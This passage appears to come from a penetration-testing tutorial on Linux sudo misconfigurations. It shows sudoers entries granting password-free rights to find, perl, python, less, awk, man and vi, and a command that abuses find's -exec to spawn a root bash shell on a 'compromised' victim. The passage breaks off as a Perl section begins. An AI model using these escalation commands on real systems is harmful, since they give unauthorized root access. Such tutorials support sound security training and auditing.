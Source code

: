 1

raaz ALL\=(root)  NOPASSWD:  /usr/bin/find

**NOTE:** Here NOPASSWD tag that means no password will be requested for the authentication while running sudo -l command.  
** ![](https://i2.wp.com/3.bp.blogspot.com/-Tk94o7a16NE/WwZTZV-l89I/AAAAAAAAXCA/XZbgrAJlBj0uFGo0fkqW_aCUFqc3WFtawCLcBGAs/s1600/9.png?w=687)**  

### **Spawn Root Access using Find Command**

Again compromised the Victim’s system and then move for privilege escalation phase and execute below command to view sudo user list.  

sudo -l

1

sudo  \-l

At this point, you can notice the highlighted text is indicating that the user raaz can run any command through find command. Therefore we got root access by executing below commands.  

sudo find /home -exec /bin/bash \\; id

1

2

sudo find  /home  \-exec  /bin/bash  \\;

id

**![](https://i0.wp.com/2.bp.blogspot.com/-B_Boz4ArL8o/WwZTT9bCHpI/AAAAAAAAXAg/9tx9bbHfPXsuG5bir2fBSGRukd5ucTDHgCLcBGAs/s1600/11.png?w=687) **  

### **Allow Root Privilege to Binary Programs**

Sometimes admin assigns delicate authorities to a particular user to run binary programs which allow a user to edit any system files such as /etc/passwd and so on. There are certain binary programs which can lead to privilege escalation if authorized to a user. In given below command we have assign sudo rights to the following program which can be run as root user.  

raaz ALL= (root) NOPASSWD: /usr/bin/perl, /usr/bin/python, /usr/bin/less, /usr/bin/awk, /usr/bin/man, /usr/bin/vi

1

raaz ALL\=  (root)  NOPASSWD:  /usr/bin/perl,  /usr/bin/python,  /usr/bin/less,  /usr/bin/awk,  /usr/bin/man,  /usr/bin/vi

![](https://i0.wp.com/4.bp.blogspot.com/-GKkj4eDCVBc/WwZTT_mo7XI/AAAAAAAAXAc/iLxoOjqCJl4LPJKwcYgPXp3tiWNUHzv-QCLcBGAs/s1600/12.png?w=687)  

### **Spawn shell using Perl**

At the time of privilege, escalation phase executes below command to view the sudo user list.  

sudo -l
